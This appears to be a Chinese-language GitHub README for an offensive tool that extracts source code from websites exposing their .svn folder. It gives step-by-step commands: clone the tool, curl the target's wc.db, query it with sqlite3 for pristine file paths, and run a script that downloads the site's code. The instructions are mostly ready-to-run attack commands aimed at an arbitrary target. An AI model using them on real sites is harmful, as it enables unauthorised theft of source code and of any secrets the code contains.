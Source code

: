 # SVN_WC.db
用来利用svn文件里的wc.db
# 使用步骤
git此项目
```bash
git clone https://github.com/AWDSCAN/SVN_WC.db.git
cd SVN_WC.db
chmod 777 svn-db_parser.sh
```
然后下载目标 wc.db 文件
```bash
curl -o wc.db https://目标/wc.db
```
之后导出url
```bash
sqlite3 wc.db 'select local_relpath, ".svn/pristine/" || substr(checksum,7,2) || "/" || substr(checksum,7) || ".svn-base" as alpha from NODES;' > svn-input.txt
```
最后执行脚本即可成功下载
```bash
./svn-db_parser.sh --baseurl "https://目标" --input svn-input.txt --output report
```
下载的代码在report文件夹中
